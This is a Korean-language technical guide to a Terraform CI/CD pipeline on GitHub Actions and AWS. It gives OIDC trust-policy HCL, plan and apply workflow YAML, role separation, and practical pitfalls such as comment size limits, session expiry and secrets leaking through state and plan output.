








# Terraform CI/CD 파이프라인

PR에서 plan을 돌리고 머지 후에 apply를 돌리는 구조는 누구나 처음에 만든다. 문제는 그다음에 터진다. plan 을 봤을 때와 apply 를 할 때 state 가 달라져 있거나, 취소된 job 이 락을 쥔 채 남거나, fork PR 한 건으로 클라우드 자격 증명이 새는 식이다. 이 문서는 GitHub Actions 와 AWS 를 기준으로 파이프라인을 끝까지 구성하고, 그 과정에서 실제로 걸리는 지점을 순서대로 짚는다. 기본 명령(`plan`, `apply`, backend 설정)은 [Terraform](Terraform.md)과 [Terraform 기초](Terraform_기초.md)에, state 락과 드리프트 대응은 [Terraform 운영 실무](Terraform_운영_실무.md)에 있다.

## 파이프라인이 지켜야 하는 세 가지

설계할 때 기준으로 삼는 것은 세 가지다.

- 리뷰어가 본 plan 과 실제로 적용되는 변경이 같아야 한다.
- 한 state 에는 한 번에 하나의 apply 만 돈다.
- PR 을 올린 사람이 쓸 수 있는 권한과 prod 를 바꿀 수 있는 권한이 분리되어 있다.

나머지 내용(plan 파일 아티팩트, concurrency 그룹, 환경 승인, role 분리)은 이 셋 중 하나를 지키기 위한 장치다. 첫 번째가 가장 어렵다. PR 시점의 plan 과 머지 후의 plan 은 같은 코드를 보지만 같은 순간이 아니기 때문이다. 아래 구성에서는 PR 의 plan 을 리뷰용으로만 쓰고, 머지 후 main 에서 새로 plan 을 만들어 승인 단계에서 다시 보여주는 방식을 택한다.

## PR에서 머지까지의 흐름

저장소는 환경별 디렉토리로 나뉘어 있다고 가정한다.

```
infra/
  modules/
  envs/
    dev/    # main.tf, backend.tf, .terraform.lock.hcl
    prod/
.github/workflows/
  terraform-plan.yml     # pull_request
  terraform-apply.yml    # push to main
```

각 디렉토리가 별도 state 를 가진다. backend 는 S3 이고, 락은 S3 네이티브 락(`use_lockfile = true`)을 쓴다. 이 옵션은 Terraform 1.10 에서 실험 기능으로 들어왔고 1.11 부터 정식이다. DynamoDB 락 테이블을 쓰는 구성이라면 이 문서의 락 관련 내용은 그대로 적용되고, 락이 남는 위치만 테이블 항목으로 바뀐다.

전체 흐름은 아래 시퀀스와 같다. 눈여겨볼 곳은 role 이 세 번 바뀐다는 점이다. PR 단계의 plan 은 read-only role, 머지 후 plan 도 read-only role, apply 는 승인을 통과한 job 만 쓸 수 있는 별도 role 이다.



## GitHub Actions에서 OIDC로 AWS 인증하기

Access Key 를 GitHub Secrets 에 넣는 방식은 키 회전을 잊는 순간 몇 년짜리 장기 자격 증명이 된다. OIDC 는 job 마다 GitHub 이 서명한 토큰을 발급하고, AWS 가 그 토큰의 claim 을 trust policy 로 검증해 임시 자격 증명을 내준다. 저장해 둘 secret 이 없다.

trust policy 에서 실제로 판별에 쓰는 claim 은 `sub` 다. job 이 어떤 이벤트에서 돌았는지에 따라 값이 달라진다.

| job 상황 | sub 값 |
|---|---|
| `pull_request` 이벤트 | `repo:acme/infra:pull_request` |
| `push` 이벤트, environment 없음 | `repo:acme/infra:ref:refs/heads/main` |
| `environment: prod` 가 붙은 job | `repo:acme/infra:environment:prod` |

environment 가 붙은 job 은 브랜치 정보가 sub 에서 사라지고 environment 이름이 들어간다. 이 성질이 권한 분리의 핵심이다. apply role 의 trust policy 를 `environment:prod` 하나로만 열어 두면, 그 role 은 GitHub 의 environment 보호 규칙(승인자, 허용 브랜치)을 통과한 job 만 받을 수 있다. workflow 파일을 마음대로 고친 PR 브랜치에서도 `environment: prod` 를 적을 수는 있지만, deployment branch 정책에 걸려 job 이 시작되지 않는다.

IAM 쪽은 Terraform 으로 관리한다. 부트스트랩 용도라 이 코드만은 로컬이나 별도 스택에서 먼저 적용해야 한다.

```hcl
resource "aws_iam_openid_connect_provider" "github" {
  url            = "https://token.actions.githubusercontent.com"
  client_id_list = ["sts.amazonaws.com"]
}

locals {
  repo = "acme/infra"

  trust = {
    plan-dev   = ["repo:${local.repo}:pull_request", "repo:${local.repo}:ref:refs/heads/main"]
    plan-prod  = ["repo:${local.repo}:pull_request", "repo:${local.repo}:ref:refs/heads/main"]
    apply-dev  = ["repo:${local.repo}:environment:dev"]
    apply-prod = ["repo:${local.repo}:environment:prod"]
  }
}

data "aws_iam_policy_document" "trust" {
  for_each = local.trust

  statement {
    actions = ["sts:AssumeRoleWithWebIdentity"]

    principals {
      type        = "Federated"
      identifiers = [aws_iam_openid_connect_provider.github.arn]
    }

    condition {
      test     = "StringEquals"
      variable = "token.actions.githubusercontent.com:aud"
      values   = ["sts.amazonaws.com"]
    }

    condition {
      test     = "StringEquals"
      variable = "token.actions.githubusercontent.com:sub"
      values   = each.value
    }
  }
}

resource "aws_iam_role" "gha" {
  for_each             = local.trust
  name                 = "gha-tf-${each.key}"
  assume_role_policy   = data.aws_iam_policy_document.trust[each.key].json
  max_session_duration = startswith(each.key, "apply") ? 7200 : 3600
}
```

aws provider 버전에 따라 `aws_iam_openid_connect_provider` 에 `thumbprint_list` 를 요구하는 경우가 있다. 최근 버전은 생략해도 된다.

trust policy 에서 자주 나오는 실수가 두 가지 있다. `sub` 를 `StringLike` 로 `repo:acme/*` 처럼 열어 두면 조직 안의 어떤 저장소든 이 role 을 받는다. 처음에 편하자고 넣었다가 그대로 남는 경우가 많다. 반대로 `aud` 조건을 빼면 같은 OIDC provider 를 신뢰하는 다른 용도의 토큰이 통과할 여지가 생긴다.

또 하나는 세션 시간이다. `configure-aws-credentials` 의 기본 세션은 1시간이고, RDS 나 EKS 클러스터를 만드는 apply 는 1시간을 넘기는 경우가 있다. 도중에 `ExpiredToken` 이 나면 apply 가 중간에 죽고 락과 반쯤 만들어진 리소스가 남는다. 위 코드에서 apply role 의 `max_session_duration` 을 2시간으로 둔 이유이며, workflow 에서도 `role-duration-seconds` 를 맞춰야 한다.

## PR에서 plan 돌리고 코멘트로 올리기

PR workflow 는 dev 와 prod 를 matrix 로 병렬 실행한다. 설계에서 정한 것이 몇 가지 있다.

- plan 은 `-lock=false` 로 돌린다. read-only role 이 state 버킷에 쓰기 권한을 갖지 않게 하려는 것이고, 취소된 PR plan 이 락을 남기는 일도 없어진다. 대신 plan 이 도는 도중에 다른 apply 가 state 를 바꾸면 읽은 값이 어긋날 수 있는데, 이 plan 은 리뷰용이라 감수한다.
- `hashicorp/setup-terraform` 의 wrapper 는 끈다. wrapper 가 켜져 있으면 `terraform` 호출의 stdout 을 가로채서 exit code 처리가 번거로워진다. 여기서는 `plan.log` 로 직접 리다이렉트한다.
- `-detailed-exitcode` 로 0(변경 없음), 1(오류), 2(변경 있음)를 구분한다.
- 같은 PR 에 push 가 연달아 오면 앞선 run 은 취소한다(`cancel-in-progress: true`). 락을 안 잡으므로 취소해도 흔적이 남지 않는다.
- 코멘트는 환경마다 한 개를 만들고 push 때마다 갱신한다. 매번 새로 달면 PR 에 plan 코멘트가 수십 개 쌓인다.

```yaml
# .github/workflows/terraform-plan.yml
name: terraform-plan

on:
  pull_request:
    paths:
      - 'infra/**'
      - '.github/workflows/terraform-*.yml'

permissions:
  contents: read
  id-token: write
  pull-requests: write

concurrency:
  group: tf-plan-${{ github.event.pull_request.number }}
  cancel-in-progress: true

env:
  TF_VERSION: "1.11.4"
  TF_IN_AUTOMATION: "true"

jobs:
  plan:
    if: github.event.pull_request.head.repo.full_name == github.repository
    runs-on: ubuntu-latest
    timeout-minutes: 20
    strategy:
      fail-fast: false
      matrix:
        env: [dev, prod]
    defaults:
      run:
        working-directory: infra/envs/${{ matrix.env }}
    steps:
      - uses: actions/checkout@v4

      - uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-tf-plan-${{ matrix.env }}
          aws-region: ap-northeast-2

      - uses: hashicorp/setup-terraform@v3
        with:
          terraform_version: ${{ env.TF_VERSION }}
          terraform_wrapper: false

      - name: fmt
        working-directory: infra
        run: terraform fmt -check -recursive

      - run: terraform init -input=false

      - run: terraform validate -no-color

      - name: plan
        id: plan
        run: |
          set +e
          terraform plan -input=false -lock=false -no-color -detailed-exitcode -out=tfplan > plan.log 2>&1
          echo "exitcode=$?" >> "$GITHUB_OUTPUT"
          exit 0

      - name: job summary
        if: ${{ !cancelled() && steps.plan.outcome != 'skipped' }}
        run: |
          { echo '### terraform plan (${{ matrix.env }})'; echo '```'; tail -c 900000 plan.log; echo '```'; } >> "$GITHUB_STEP_SUMMARY"

      - name: PR comment
        if: ${{ !cancelled() && steps.plan.outcome != 'skipped' }}
        uses: actions/github-script@v7
        with:
          script: |
            const fs = require('fs');
            const env = '${{ matrix.env }}';
            const marker = `<!-- terraform-plan:${env} -->`;
            const status = { '0': '변경 없음', '2': '변경 있음', '1': '실패' }['${{ steps.plan.outputs.exitcode }}'];

            let log = fs.readFileSync(`infra/envs/${env}/plan.log`, 'utf8');
            if (log.length > 60000) {
              log = log.slice(0, 60000) + '\n\n... 길이 제한으로 잘림. 전체 출력은 Job Summary 에 있다.';
            }

            const body = [
              marker,
              `### terraform plan (${env}) - ${status}`,
              '<details><summary>plan 출력</summary>',
              '',
              '````',
              log,
              '````',
              '</details>',
              `commit ${context.payload.pull_request.head.sha.slice(0, 7)}`,
            ].join('\n');

            const { owner, repo } = context.repo;
            const issue_number = context.issue.number;
            const comments = await github.paginate(github.rest.issues.listComments, { owner, repo, issue_number });
            const prev = comments.find(c => c.user.type === 'Bot' && c.body.includes(marker));
            if (prev) {
              await github.rest.issues.updateComment({ owner, repo, comment_id: prev.id, body });
            } else {
              await github.rest.issues.createComment({ owner, repo, issue_number, body });
            }

      - name: plan 실패 처리
        if: steps.plan.outputs.exitcode == '1'
        run: exit 1
```

몇 가지는 운영하다가 발견하게 된다.

PR 코멘트 본문은 65,536자가 상한이다. 리소스가 수백 개인 환경에서 모듈 구조를 바꾸는 PR 은 plan 출력이 이 상한을 쉽게 넘고, `createComment` 가 422 로 실패해서 job 전체가 빨갛게 변한다. 위 코드는 6만 자에서 자르고 전체는 Job Summary 로 돌린다. 요약 줄(`Plan: 3 to add, 1 to change, 0 to destroy`)이 맨 끝에 있으므로, 잘린 코멘트에서는 그 줄이 보이지 않는다는 점은 알고 있어야 한다. 요약 줄만 따로 뽑아 코멘트 제목에 붙이는 것도 방법이다.

`actions/checkout` 은 `pull_request` 이벤트에서 PR 브랜치 head 가 아니라 base 와 머지한 가상 커밋(`refs/pull/N/merge`)을 체크아웃한다. PR plan 은 "머지했을 때의 결과"를 보여주는 셈이다. 다만 그 가상 커밋은 push 시점에 만들어지므로, 그 뒤에 main 이 앞서가도 workflow 는 다시 돌지 않는다. 리뷰가 이틀 걸린 PR 의 plan 은 이틀 전 main 기준이다. branch protection 의 "Require branches to be up to date before merging" 으로 막을 수 있지만 PR 이 많은 저장소에서는 rebase 대기가 길어진다. 이 문서의 구성은 막지 않고, 머지 후 main 에서 plan 을 새로 만들어 승인 때 다시 보여주는 쪽을 택했다.

plan 출력에 비밀이 섞이는 경우도 있다. `sensitive = true` 로 표시된 값은 `(sensitive value)` 로 가려지지만, 리소스 속성에 평문으로 들어간 값은 그대로 나온다. 예를 들어 `user_data` 에 템플릿으로 박은 토큰이 diff 에 찍힌다. 공개 저장소라면 PR 코멘트가 곧 공개 게시물이다.

## plan용 role과 apply용 role 분리

PR 을 올릴 수 있는 사람은 `.github/workflows/terraform-plan.yml` 도 수정할 수 있다. `pull_request` 이벤트는 PR 브랜치에 있는 workflow 파일로 실행되기 때문이다. 그러니 PR 단계에서 쓰는 role 은 "PR 작성자가 마음대로 써도 되는 권한"이어야 한다. 쓰기 권한이 하나라도 있으면 그 권한은 이미 PR 작성자의 것이다.



plan role 은 AWS 관리형 `ReadOnlyAccess` 에 state 버킷 읽기를 더한 정도로 만든다.

```hcl
data "aws_iam_policy_document" "state_read" {
  statement {
    actions   = ["s3:ListBucket"]
    resources = ["arn:aws:s3:::acme-tfstate"]
  }
  statement {
    actions   = ["s3:GetObject"]
    resources = ["arn:aws:s3:::acme-tfstate/*"]
  }
}
```

여기서 흔히 놓치는 것이 있다. read-only 라고 해서 안전한 게 아니다. state 파일에는 RDS 초기 비밀번호, 생성한 IAM 사용자의 secret, 사설 키 같은 값이 평문으로 들어 있다. plan role 이 state 를 읽을 수 있다는 건 그 값을 읽을 수 있다는 뜻이다. `sensitive` 표시는 출력에서 가릴 뿐 state 에는 그대로 저장된다. 그래서 plan role 의 trust 범위를 좁히는 것과, state 에 비밀을 남기지 않는 설계(Secrets Manager 참조, `ephemeral` 리소스 지원 버전에서는 ephemeral 값 사용)를 함께 챙긴다.

`ReadOnlyAccess` 로 부족한 경우도 나온다. KMS 로 암호화된 state 를 읽으려면 `kms:Decrypt` 가 필요하고, `aws_secretsmanager_secret_version` 같은 데이터 소스는 값을 읽어야 해서 별도 권한이 든다. plan 이 AccessDenied 로 실패할 때마다 권한을 넓히다 보면 read-only 라는 이름만 남는다. 어떤 데이터 소스가 값을 읽는지 점검하고, 값이 필요한 것은 리소스 단위로 허용한다.

apply role 은 사실상 관리자에 가깝다. IAM 리소스까지 Terraform 이 만드는 환경이라면 permission boundary 를 걸어 apply role 이 자기 자신보다 큰 권한을 만들지 못하게 막는다. 어차피 권한 자체를 줄이기 어려우니, 보호는 "누가 이 role 을 받을 수 있느냐"에 건다. 위 trust policy 에서 `environment:prod` 하나만 허용하는 이유다.

## 머지 후 apply와 plan 파일 아티팩트

apply workflow 는 main 에 push 가 들어올 때 돈다. dev 는 plan 과 apply 를 한 job 에서 바로 하고, prod 는 plan job 과 apply job 을 나눈다. 둘 사이에서 `tfplan` 파일을 아티팩트로 넘기고, 사이에 환경 승인이 끼어든다.

`terraform apply -auto-approve` 를 쓰지 않고 plan 파일을 쓰는 이유는 승인자가 본 것과 실행되는 것을 묶기 위해서다. 승인 화면에 보인 plan 이 `tfplan` 이고, apply 는 그 파일의 액션 목록만 실행한다. apply 시점에 Terraform 이 다시 계산해서 다른 변경을 끼워 넣지 못한다.

```yaml
# .github/workflows/terraform-apply.yml
name: terraform-apply

on:
  push:
    branches: [main]
    paths:
      - 'infra/**'

concurrency:
  group: terraform-apply
  cancel-in-progress: false

permissions:
  contents: read
  id-token: write

env:
  TF_VERSION: "1.11.4"
  TF_IN_AUTOMATION: "true"

jobs:
  dev:
    runs-on: ubuntu-latest
    environment: dev
    timeout-minutes: 60
    defaults:
      run:
        working-directory: infra/envs/dev
    steps:
      - uses: actions/checkout@v4
      - uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-tf-apply-dev
          aws-region: ap-northeast-2
          role-duration-seconds: 7200
      - uses: hashicorp/setup-terraform@v3
        with:
          terraform_version: ${{ env.TF_VERSION }}
          terraform_wrapper: false
      - run: terraform init -input=false
      - run: terraform plan -input=false -no-color -out=tfplan
      - run: terraform apply -input=false -lock-timeout=5m tfplan

  plan-prod:
    needs: dev
    runs-on: ubuntu-latest
    timeout-minutes: 20
    outputs:
      exitcode: ${{ steps.plan.outputs.exitcode }}
    defaults:
      run:
        working-directory: infra/envs/prod
    steps:
      - uses: actions/checkout@v4
      - uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-tf-plan-prod
          aws-region: ap-northeast-2
      - uses: hashicorp/setup-terraform@v3
        with:
          terraform_version: ${{ env.TF_VERSION }}
          terraform_wrapper: false
      - run: terraform init -input=false
      - name: plan
        id: plan
        run: |
          set +e
          terraform plan -input=false -lock=false -no-color -detailed-exitcode -out=tfplan > plan.log 2>&1
          code=$?
          echo "exitcode=$code" >> "$GITHUB_OUTPUT"
          { echo '### prod plan'; echo '```'; tail -c 900000 plan.log; echo '```'; } >> "$GITHUB_STEP_SUMMARY"
          [ "$code" -ne 1 ]
      - uses: actions/upload-artifact@v4
        if: steps.plan.outputs.exitcode == '2'
        with:
          name: tfplan-prod
          path: infra/envs/prod/tfplan
          retention-days: 3

  apply-prod:
    needs: plan-prod
    if: needs.plan-prod.outputs.exitcode == '2'
    runs-on: ubuntu-latest
    environment: prod
    timeout-minutes: 120
    defaults:
      run:
        working-directory: infra/envs/prod
    steps:
      - uses: actions/checkout@v4
      - uses: actions/download-artifact@v4
        with:
          name: tfplan-prod
          path: infra/envs/prod
      - uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-tf-apply-prod
          aws-region: ap-northeast-2
          role-duration-seconds: 7200
      - uses: hashicorp/setup-terraform@v3
        with:
          terraform_version: ${{ env.TF_VERSION }}
          terraform_wrapper: false
      - run: terraform init -input=false
      - run: terraform apply -input=false -lock-timeout=5m tfplan
```

저장된 plan 을 다른 job 에서 apply 할 때 지켜야 하는 조건이 있다.

- 같은 커밋을 체크아웃한다. 같은 workflow run 안의 job 은 `github.sha` 가 같아서 자연스럽게 맞는다.
- `terraform init` 을 다시 해야 한다. `.terraform/` 디렉토리는 아티팩트에 없다. 이때 `.terraform.lock.hcl` 이 커밋되어 있어야 plan 때와 같은 provider 버전이 설치된다. 락 파일이 없으면 init 이 그 시점의 최신 provider 를 받아서 plan 파일과 맞지 않을 수 있다.
- Terraform 버전도 같아야 한다. `TF_VERSION` 을 `latest` 로 두면 plan 직후 새 버전이 나와 job 사이에서 버전이 갈릴 수 있다. 고정해 둔다.

